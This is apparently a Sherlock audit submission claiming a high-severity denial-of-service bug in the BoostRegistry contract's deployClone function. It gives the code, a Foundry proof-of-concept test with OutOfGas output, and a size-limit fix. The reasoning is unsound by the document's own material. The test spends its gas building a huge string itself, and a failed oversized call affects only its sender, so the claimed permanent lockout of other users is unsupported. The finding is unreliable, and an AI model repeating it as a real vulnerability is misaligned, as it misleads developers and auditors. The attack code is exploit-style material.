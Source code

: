 Gentle Marmalade Horse

High

# BoostRegistry contract has Denial of Service (DoS) with Block Gas Limit in deployClone Function

### Sherlock.xyz Security Audit Report: **Denial of Service (DoS) with Block Gas Limit in BoostRegistry Contract**

---

**Title**: Denial of Service (DoS) with Block Gas Limit in `deployClone` Function

- **Severity**: High
- **Impact**: High
- **Likelihood**: Medium
- **Issue Type**: DoS via Gas Limit
- **Location**: 
   - File: `BoostRegistry.sol`
   - Lines: 102-120
   - Function: `deployClone`

---

### Vulnerability Description

The `deployClone` function in the `BoostRegistry` contract is vulnerable to a Denial of Service (DoS) attack due to the acceptance of large calldata `bytes` arrays. Specifically, the function can be abused by passing an extremely large `bytes calldata data_` array during the clone deployment process. This can exhaust the block's gas limit, causing the function to fail with an `OutOfGas` error.

The issue stems from the `_deployedClones` mapping which grows without any constraints, leading to an unbounded number of entries. Combined with the acceptance of arbitrarily large `data_`, the contract runs the risk of exceeding the block gas limit, making the function vulnerable to DoS attacks.

### Vulnerable Code
```txt
https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostRegistry.sol#L102-L120
```
```solidity
function deployClone(RegistryType type_, address base_, string calldata name_, bytes calldata data_)
    external
    nonReentrant
    returns (ACloneable instance)
{
    // Deploy and initialize the clone
    instance = ACloneable(base_.cloneAndInitialize(keccak256(abi.encodePacked(type_, base_, name_, msg.sender)), data_));

    // Ensure the clone's identifier is unique
    bytes32 identifier = getCloneIdentifier(type_, base_, msg.sender, name_);
    if (address(_clones[identifier].instance) != address(0)) revert AlreadyRegistered(type_, identifier);

    // Register and report the newly deployed clone
    _deployedClones[msg.sender].push(identifier);
    _clones[identifier] = Clone({baseType: type_, instance: instance, deployer: msg.sender, name: name_});

    emit Deployed(type_, identifier, base_, instance);
}
```

### Proof of Concept (Foundry PoC)

The following PoC demonstrates how the `deployClone` function can be exploited by passing a large `bytes` array, causing the function to run out of gas and fail:
```txt
boost-protocol/packages/evm/contracts/BoostRegistryDoS.t.sol
```
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.24;

import "../lib/forge-std/Test.sol";

import {ERC165} from "@openzeppelin/contracts/utils/introspection/ERC165.sol";
import {LibClone} from "@solady/utils/LibClone.sol";
import {ReentrancyGuard} from "@solady/utils/ReentrancyGuard.sol";

import {BoostLib} from "../contracts/shared/BoostLib.sol";
import {ACloneable} from "../contracts/shared/ACloneable.sol";
import {AAllowList} from "../contracts/allowlists/AAllowList.sol";
import "./BoostRegistry.sol";


contract BoostRegistryDoSTest is Test {

    BoostRegistry public boostRegistry;

    function setUp() public {

        boostRegistry = new BoostRegistry();
        vm.deal(address(this), 100 ether);
    }

    function multiplyString(string memory input, uint256 times) public pure returns (string memory) {
        // create genreate large bytes function
        if (times == 0) {
            return "";
        }

        bytes memory inputBytes = bytes(input);
        uint256 inputLength = inputBytes.length;
        uint256 resultLength = inputLength * times;

        bytes memory result = new bytes(resultLength);

        for (uint256 i = 0; i < times; i++) {
            for (uint256 j = 0; j < inputLength; j++) {
                result[i * inputLength + j] = inputBytes[j];
            }
        }

        return string(result);
    }

    function testBoostRegistry4() external {
            vm.startPrank(address(0xbEEF));
            string memory input = "0xhex"; 
            uint256 times = uint256(10);
            uint256 timesFold = uint256(1000000);
            address base_ = address(this); 
            string memory name_ =  multiplyString(input, times);
            bytes memory data_ = bytes(multiplyString(input, timesFold));
            boostRegistry.deployClone(BoostRegistry.RegistryType.VALIDATOR, base_, name_, data_);
            vm.stopPrank();
    }

}
```

### Test Results

The test demonstrates that the `deployClone` function will run out of gas when processing a large `bytes` array. 

```bash
[FAIL. Reason: EvmError: OutOfGas] testBoostRegistry4() (gas: 1073720760)

evm % forge test -v --match-contract BoostRegistryDoSTest
Ran 1 test for contracts/BoostRegistryDoS.t.sol:BoostRegistryDoSTest
[FAIL. Reason: EvmError: OutOfGas] testBoostRegistry4() (gas: 1073720760)

Failing tests:
Encountered 1 failing test in contracts/BoostRegistryDoS.t.sol:BoostRegistryDoSTest
[FAIL. Reason: EvmError: OutOfGas] testBoostRegistry4() (gas: 1073720760)
```

### Impact

- Attackers can effectively **prevent the deployment of clones** by exploiting the lack of a size limit on the `data_` argument, causing the function to run out of gas.
- The attack can be **perpetuated indefinitely**, leading to a **permanent denial of service** for legitimate users attempting to deploy new clones.

### Mitigation

To mitigate this issue, a limit on the size of the `bytes` array should be introduced to prevent excessively large payloads from being passed to the `deployClone` function. Below is the Solidity-coded mitigation that enforces a size limit:

#### Mitigation Code

```solidity
uint256 constant MAX_CLONE_DATA_SIZE = 10240; // Example limit of 10 KB

function deployClone(RegistryType type_, address base_, string calldata name_, bytes calldata data_)
    external
    nonReentrant
    returns (ACloneable instance)
{
    require(data_.length <= MAX_CLONE_DATA_SIZE, "Data size exceeds limit");

    // Deploy and initialize the clone
    instance = ACloneable(base_.cloneAndInitialize(keccak256(abi.encodePacked(type_, base_, name_, msg.sender)), data_));

    // Ensure the clone's identifier is unique
    bytes32 identifier = getCloneIdentifier(type_, base_, msg.sender, name_);
    if (address(_clones[identifier].instance) != address(0)) revert AlreadyRegistered(type_, identifier);

    // Register and report the newly deployed clone
    _deployedClones[msg.sender].push(identifier);
    _clones[identifier] = Clone({baseType: type_, instance: instance, deployer: msg.sender, name: name_});

    emit Deployed(type_, identifier, base_, instance);
}
```

#### Explanation:
- A constant `MAX_CLONE_DATA_SIZE` is introduced, capping the maximum size of the `data_` array to a reasonable limit (e.g., 10 KB).
- The function now includes a `require` statement to revert if the data size exceeds this limit.

### Severity Level

- **Severity**: High
  - The function can be exploited to cause a denial of service (DoS) by attackers. It prevents legitimate usage of the clone deployment mechanism, which is a critical feature in the Boost protocol.

### Conclusion

This issue is a **High severity** Denial of Service vulnerability that occurs due to the contract's unbounded acceptance of large `bytes` arrays, leading to an `OutOfGas` failure. Proper mitigation involves enforcing reasonable size limits on the `data_` payload to prevent gas exhaustion during execution.